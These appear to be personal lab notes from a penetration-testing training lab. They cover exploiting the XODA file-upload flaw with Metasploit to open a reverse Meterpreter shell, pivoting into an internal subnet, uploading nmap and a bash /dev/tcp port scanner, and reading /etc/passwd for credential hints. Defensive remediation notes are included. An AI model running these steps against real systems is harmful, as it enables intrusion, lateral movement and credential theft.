

# Lab Environment

In this lab, we are given access to a Kali machine. There are two target machines, one on the same network i.e. **demo1.ine.local**. This target machine is vulnerable and can be exploited using the following information. Use this information to retrieve services running on the second target machine and complete the mission!

**Vulnerability Information**

**Vulnerability:** XODA File Upload Vulnerability

**Metasploit module:** exploit/unix/webapp/xoda_file_upload

**Objective:** - Identify the ports open on the second target machine using appropriate Metasploit modules. - Write a bash script to scan the ports of the second target machine. - Upload the nmap static binary to the target machine and identify the services running on the second target machine.

# Tools

The best tools for this lab are:

- Metasploit
- Bash
- Terminal
- Nmap
---
XODA vulnerability: an unauthenticated arbitrary PHP file-upload that leads to remote code execution. ([Rapid7](https://www.rapid7.com/db/modules/exploit/unix/webapp/xoda_file_upload/?utm_source=chatgpt.com "XODA 0.4.5 Arbitrary PHP File Upload Vulnerability"))

Details, short:

- Affected product: XODA 0.4.5. ([GitHub](https://github.com/advisories/GHSA-xqrc-jpv5-hccp?utm_source=chatgpt.com "XODA version 0.4.5 contains an unauthenticated file..."))
    
- Vulnerable vector: the app’s `upload` handler lets attackers upload a `.php` file without authentication. That file can be executed on the server. ([Rapid7](https://www.rapid7.com/db/modules/exploit/unix/webapp/xoda_file_upload/?utm_source=chatgpt.com "XODA 0.4.5 Arbitrary PHP File Upload Vulnerability"))
    
- Impact: full arbitrary code execution as the web user. ([Rapid7](https://www.rapid7.com/db/modules/exploit/unix/webapp/xoda_file_upload/?utm_source=chatgpt.com "XODA 0.4.5 Arbitrary PHP File Upload Vulnerability"))
    
- Exploitation: public Metasploit module `exploit/unix/webapp/xoda_file_upload` exists and has been used against this vuln. ([Rapid7](https://www.rapid7.com/db/modules/exploit/unix/webapp/xoda_file_upload/?utm_source=chatgpt.com "XODA 0.4.5 Arbitrary PHP File Upload Vulnerability"))
    

Mitigations (practical):

- Remove or patch XODA; upgrade if a fixed release exists. ([GitHub](https://github.com/advisories/GHSA-xqrc-jpv5-hccp?utm_source=chatgpt.com "XODA version 0.4.5 contains an unauthenticated file..."))
    
- Disable unsafe file uploads or validate/whitelist file types and block executable extensions server-side.
    
- Run web apps with least privilege and isolate them from sensitive networks.
    
- Use a web application firewall and monitor for suspicious uploads or web shells.
    

---

What is XHTML:

- XHTML is “Extensible HyperText Markup Language” — HTML reformulated as XML. It applies strict XML syntax rules to HTML. ([Wikipedia](https://en.wikipedia.org/wiki/XHTML?utm_source=chatgpt.com "XHTML"))
    
- Consequences: documents must be well-formed; tags must be closed; attributes quoted; proper nesting. ([Wikipedia](https://en.wikipedia.org/wiki/XHTML?utm_source=chatgpt.com "XHTML"))
    
- Status note: XHTML was important historically, but modern practice moved toward HTML5 which relaxed parsing rules; XHTML remains useful when you need XML parsing guarantees. ([MDN Web Docs](https://developer.mozilla.org/en-US/docs/Glossary/XHTML?utm_source=chatgpt.com "XHTML - Glossary - MDN Web Docs"))
    

---

---
---
# XODA File Upload Exploit — Lab Notes

**Summary**

- Exploited XODA file upload on `demo1.ine.local` to obtain a Meterpreter session on `192.151.74.3`.
    
- Pivoted from the compromised host into the `192.2.78.0/24` network.
    
- Scanned `192.2.78.3` and discovered FTP(21), SSH(22) and HTTP(80).
    
- Uploaded a static `nmap` binary and a bash port scanner to confirm services.
    

---

# Objectives

- Exploit XODA upload vulnerability to get code execution.
    
- Identify internal network reachable from the compromised host.
    
- Scan the internal host and enumerate services.
    
- Upload and run scanning tools on the compromised host.
    

---

# Environment

- Attacker (Kali): interfaces include `192.151.74.2` (eth1 in attacker VM).
    
- Victim1 (compromised): `demo1.ine.local` → `192.151.74.3` (eth0).
    
- Victim1 internal interface: `192.2.78.2` (eth1).
    
- Victim2 (internal target): `192.2.78.3`.
    

---

# Step-by-step log and annotated notes

## 1. Verify connectivity

```text
┌──(root㉿INE)-[~]
└─# ping -c4 demo1.ine.local
PING demo1.ine.local (192.151.74.3) ...
4 packets transmitted, 4 received, 0% packet loss
```

**Note:** ICMP confirms host `192.151.74.3` is reachable. Low latency indicates local network.

## 2. Initial Nmap scan (default ports)

```text
┌──(root㉿INE)-[~]
└─# nmap demo1.ine.local
PORT   STATE SERVICE
80/tcp open  http
```

**Note:** Only port 80 is open. Web service is the attack surface.

## 3. Service/version and script scan

```text
└─# nmap -sV -sC demo1.ine.local
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: XODA
|_http-git: 192.151.74.3:80/.git/  (Git repo found)
```

**Note:** `XODA` web application detected. Default scripts reveal a `.git` directory and server type. Presence of XODA indicates a known file-upload vulnerability.

## 4. Confirm web app content

```text
└─# curl 192.151.74.3
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" ...>
<title>XODA</title>
<form method="post" action="/?log_in" name="lform" id="login"> ...
```

**Note:** Page renders XHTML markup. Confirms application identity and that PHP back-end likely handles form actions.

## 5. Load Metasploit and select exploit

```text
msf6 > use exploit/unix/webapp/xoda_file_upload
msf6 exploit(unix/webapp/xoda_file_upload) > show options
```

**Note:** Module targets `XODA 0.4.5` and defaults to `php/meterpreter/reverse_tcp` payload. Required options: `RHOSTS`, `TARGETURI`, `LHOST`, `LPORT`.

## 6. Configure and run exploit (multiple attempts)

Key commands and outcomes (condensed):

```text
set RHOSTS demo1.ine.local
set TARGETURI /
set LHOST 192.151.74.2
set LPORT 2807
exploit

[*] Started reverse TCP handler on 192.151.74.2:2807
[*] Sending PHP payload (lynsaVuFfStcX.php)
[*] Meterpreter session 1 opened (192.151.74.2:2807 -> 192.151.74.3:36204)
```

**Note:** Listener must bind to an interface reachable by the target. Several earlier attempts failed because `LHOST` was set incorrectly (bound to target address instead of attacker interface). Final LHOST `192.151.74.2` (attacker eth1) succeeded.

## 7. Get a shell and enumerate network interfaces on compromised host

```text
meterpreter > shell
# ip addr
eth0: inet 192.151.74.3/24
eth1: inet 192.2.78.2/24
```

**Note:** Compromised host has two interfaces. `eth1` connects to a second internal subnet (`192.2.78.0/24`) that likely houses other lab targets.

## 8. Pivoting — add autoroute for internal subnet

```text
meterpreter > background
meterpreter > run autoroute -s 192.2.78.0/24
[+] Added route to 192.2.78.0/255.255.255.0 via 192.151.74.3
```

**Note:** Adds routing in Metasploit so modules can reach hosts on `192.2.78.0/24` through the Meterpreter session.

## 9. Scan the internal host using Metasploit auxiliary scanner

```text
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.2.78.3
set ports 1-1000
exploit

[+] 192.2.78.3:21 - TCP OPEN
[+] 192.2.78.3:22 - TCP OPEN
[+] 192.2.78.3:80 - TCP OPEN
```

**Note:** Confirms FTP, SSH and HTTP are reachable from the compromised host.

## 10. Prepare static tools for host-side scanning

Checked local static nmap and its properties:

```text
ls -al /root/static-binaries/nmap
file /root/static-binaries/nmap
# -> statically linked ELF x86-64
```

**Note:** Statically linked `nmap` is suitable for upload because it does not require shared libraries on the target.

## 11. Create a compact bash port scanner

Script content (`/root/bash-port-scanner.sh`):

```bash
#!/bin/bash
for port in {1..1000}; do
  timeout 1 bash -c "echo >/dev/tcp/$1/$port" 2>/dev/null && echo "port $port is open"
done
```

**Note:** Fast TCP connect checks using bash `/dev/tcp`. Works where `nmap` is absent.

## 12. Upload static `nmap` and the bash script to compromised host

```text
meterpreter > upload /root/static-binaries/nmap /tmp/nmap
meterpreter > upload /root/bash-port-scanner.sh /tmp/bash-port-scanner.sh
```

**Note:** Files placed in `/tmp` for convenience. Verify with `ls` on the target.

## 13. Execute scanners on compromised host

```text
meterpreter > shell
cd /tmp
chmod +x ./nmap ./bash-port-scanner.sh
./bash-port-scanner.sh 192.2.78.3
# Output:
port 21 is open
port 22 is open
port 80 is open
```

**Note:** Confirms the open services found earlier with Metasploit.

---

# Artifacts to collect (recommended)

- `/etc/hosts` from the compromised host
    
- `/etc/passwd` and home directories for credential hints
    
- Web application files under the web root (look for `.git` directory)
    
- Any uploaded web shell logs or files
    

Commands to collect basics:

```bash
meterpreter > shell
id; uname -a
cat /etc/hosts
ls -la /var/www/html
cat /etc/passwd | egrep -v 'nologin|sync|halt|shutdown'
exit
```

---

# Bash script (copyable)

```bash
#!/bin/bash
# bash-port-scanner.sh
if [ -z "$1" ]; then
  echo "Usage: $0 <target>" >&2; exit 2
fi
for port in {1..1000}; do
  timeout 1 bash -c "echo >/dev/tcp/$1/$port" 2>/dev/null && echo "port $port is open"
done
```

---

# Flow diagram (Mermaid)



---

# References

- MITRE ATT&CK: Network Service Scanning (T1046)
    

---

# Quick remediation notes (for defenders)

- Disable unsafe file uploads or strictly validate file types server-side.
    
- Remove or secure `.git` directories from webroots.
    
- Run web services with minimal privileges and network segmentation.
    
- Monitor for web-shell indicators and anomalous outbound connections.
    

---

_End of Obsidian note_

## Step Intuitions — Quick Reference Table

|Step|Command / Action|Intuition|Why we did it|
|---|---|---|---|
|1|`ping -c4 demo1.ine.local`|Confirm host is reachable.|Avoid wasting time on an offline target. Quick network reachability check.|
|2|`nmap demo1.ine.local`|Find open ports fast.|Identify the attack surface and focus effort.|
|3|`nmap -sV -sC demo1.ine.local`|Fingerprint services and run safe checks.|Reveal software versions, app names, and exposed dirs to choose exploits.|
|4|`curl 192.151.74.3`|Fetch the web page source directly.|Confirm application identity and server-side tech before exploiting.|
|5|`msfconsole` + `use exploit/unix/webapp/xoda_file_upload`|Load a known exploit module.|Use a tested exploit to automate payload delivery and handler setup.|
|6|`set RHOSTS/TARGETURI/LHOST/LPORT`|Provide target and listener parameters.|Correct configuration enables callback and successful session creation.|
|7|Multiple exploit attempts; adjust LHOST/LPORT|Match listener to reachable interface.|Ensure the target can connect back to your listener; fix bind failures.|
|8|`meterpreter > shell` then `ip addr`|Inspect host network context and interfaces.|Discover pivot opportunities via dual-homed hosts.|
|9|`background` then `run autoroute -s 192.2.78.0/24`|Route internal subnet through session.|Enable Metasploit modules to reach internal hosts via the compromised box.|
|10|`auxiliary/scanner/portscan/tcp` on `192.2.78.3`|Probe internal host for open services.|Validate reachability and identify services to target next.|
|11|`ls -al /root/static-binaries/nmap` and `file`|Verify static nmap suitability.|Statically linked binary runs without shared libs on the target.|
|12|Create `bash-port-scanner.sh` (`/dev/tcp`)|Fast fallback scanner requiring only bash.|Works when `nmap` is absent; quick port verification.|
|13|`upload /root/static-binaries/nmap /tmp/nmap` and upload script|Move tools into the target environment.|Scanning from inside bypasses external restrictions and yields accurate results.|
|14|`chmod +x` and run scanners on target|Execute scanners to enumerate services.|Confirm open services and produce actionable intel for exploitation.|
|15|Collect artifacts (`/etc/hosts`, webroot, `/etc/passwd`)|Harvest local info and credentials.|Useful for lateral movement and privilege escalation.|
|16|Use multiple tools and repeat checks|Cross-validate findings.|Reduce false negatives and increase confidence in results.|

---

_End of Obsidian note_